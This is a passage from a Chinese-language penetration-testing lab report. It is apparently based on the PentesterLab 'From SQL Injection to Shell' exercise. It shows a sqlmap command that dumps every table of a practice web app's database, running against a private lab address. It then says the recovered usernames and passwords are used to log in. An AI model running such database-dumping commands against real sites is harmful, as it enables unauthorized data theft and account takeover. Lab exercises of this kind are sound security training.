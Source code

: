    ![](images/sqlmap_dbs.png)

2. 尝试获取photoblog数据库中的全部数据。可以看到在users表中存储的用户名和密码。

   ```mysql
   sqlmap -u "http://192.168.56.101/cat.php?id=1" -D photoblog --dump-all --batch
   # -D 使用的数据库
   # --dump-all 转储所有DBMS数据库表项
   # --batch 不问用户的输入，选择默认值
   ```

   ![](images/sqlmap_photoblog.png)

3. 获得用户名密码之后就可以直接登录了。

## 参考链接

1. [https://pentesterlab.com/exercises/from_sqli_to_shell/course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
2. [https://tools.kali.org/vulnerability-analysis/sqlmap](https://tools.kali.org/vulnerability-analysis/sqlmap)
3. [https://github.com/CUCCS/2018-NS-Public-jckling](https://github.com/CUCCS/2018-NS-Public-jckling/blob/ns-0x07/ns-0x07/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A.md)